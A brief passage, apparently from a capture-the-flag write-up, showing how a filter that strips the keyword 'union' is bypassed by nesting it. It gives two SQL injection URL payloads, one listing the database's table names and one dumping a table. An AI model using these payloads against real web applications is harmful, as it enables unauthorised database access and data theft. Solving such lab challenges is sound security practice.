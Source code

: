 This time even 'union' is filtering.<br>
So we try
<pre>
?q=3\&s=+uniunionon+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema=database()--+
</pre>
And the tables names appear<br>
A little magic...
<pre>
?q=3\&s=+uniunionon+select+*+from+qdyk5--+
</pre>
GL